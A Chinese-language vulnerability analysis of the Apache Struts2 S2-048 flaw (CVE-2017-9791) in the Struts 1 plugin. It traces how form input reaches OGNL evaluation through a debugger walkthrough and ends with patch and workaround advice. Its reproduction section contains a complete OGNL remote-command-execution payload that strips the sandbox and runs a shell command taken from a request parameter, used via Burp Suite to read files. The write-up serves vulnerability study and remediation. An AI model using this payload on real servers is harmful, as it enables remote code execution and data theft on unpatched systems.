# Struts2-048漏洞分析 #

## 1.&emsp;漏洞描述 ##

* 漏洞描述：当Struts 2中的  Struts 1插件启用的情况下，攻击者通过使用恶意字段值可能造成RCE。这些不可信的输入数据被带入到ActionMessage类中的错误信息中。
* 漏洞编号：CVE-2017-9791
* 漏洞作者：icez ic3z#qq.com
* 影响版本：Struts 2.3.x
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

|Question      | Answer          |
| ------------- |:-------------:|
|Who should read this|All Struts 2 developers and users should read this|
|Impact of vulnerability|Possible RCE when using the Struts 2 Struts 1 plugin|
|Maximum security rating|High|
|Recommendation|Please read the Solution section|
|Affected Software|Struts 2.3.x with Struts 1 plugin and Struts 1 action|
|Reporter|icez <ic3z at qq dot com> from Tophant Competence Center|
|CVE Identifier|CVE-2017-9791|

## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;Apache Struts2.3.x系列版本中struts2-struts1-plugin存在远程代码执行漏洞，进而导致任意代码执行。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;从官方的漏洞描述我们可以知道，这个漏洞本质上是在struts2-struts1-plugin这个jar包上。这个库是用将struts1的action封装成struts2的action以便在strut2上使用。本质原因还是在struts2-struts1-plugin包中Struts1Action.java中execute函数调用了getText函数，这个函数会执行ognl表达式，更可恶的是getText的输入内容还是攻击者可控的。以下分析基于struts2的官方示例struts2-showcase war包。

&emsp;&emsp;Eclipse直接导入官方showcase.war,反编译出jar包中的源码，进行debug调试。

1. 运行该工程，点击Intergration按钮的Strust1 Intergration功能，进入如下页面：

2. 在输入框中输入以下参数进入debug模式


3. 可以看到断点进入struts2-struts1-plugin.jar中的Struts1Action.class中的execute函数，截图处即为调用SaveGangsterAction处，查看actionForm值可以看到我们输入的参数全都传递进来。


4. 进入org.apache.struts2.showcase.integration包中的SaveGangsterAction.java类，通过gform.getName()获取name参数添加到msg中。


5. 继续往下走，回到Struts1Action.class中，可以看到把actionForm里的name值经过处理给了messages


6. 继续跟踪，走到xwork-core.jar的com.opensymphony.xwork2.util包的LocalizedTextUtil.class类


7. F5进入函数，走到translateVariables函数看到我们的参数expression执行了ognl表达式


8. 走完回来，继续查看mf的值，可以看到${111+9}已经被执行，执行结果也返回回来


9. 查看网页，看到${111+9}被执行成120并成功返回到页面中



## 4.&emsp;漏洞复现(查看文件内容) ##

1. 访问工程的struts1插件功能模块，在输入框输入攻击payload：

		%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}

2. 通过burpsuite进行数据包拦截，拦截到数据包直接send to Repeater，构造任意命令执行转发数据包。在post参数中添加cmd参数执行命令。

 
3. 点击Run按钮进行数据包转发，查看结果，成功返回查看文件内容：



## 5.&emsp;修复方案 ##

*  官方解决方案官方已经发布了版本更新，建议用户升级到Struts 2.5.10.1版本，下载链接如下所示：

[https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1](https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1 "https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1")

[http://struts.apache.org/download.cgi](http://struts.apache.org/download.cgi "http://struts.apache.org/download.cgi")

*  临时修复方案

开发者通过使用资源调用方式替代原始值传递方式给ActionMessage的方式。 如下所示：

	messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()));

不要使用如下的方式：

	messages.add("msg", new ActionMessage("Gangster" + gform.getName() + "was added"));

* 在非必要的情况下禁用struts2-struts1-plugin插件。将struts2-struts1-plugin-2.3.x.jar文件从 “/WEB-INF/lib”目录中移动到其他文件夹或者删除。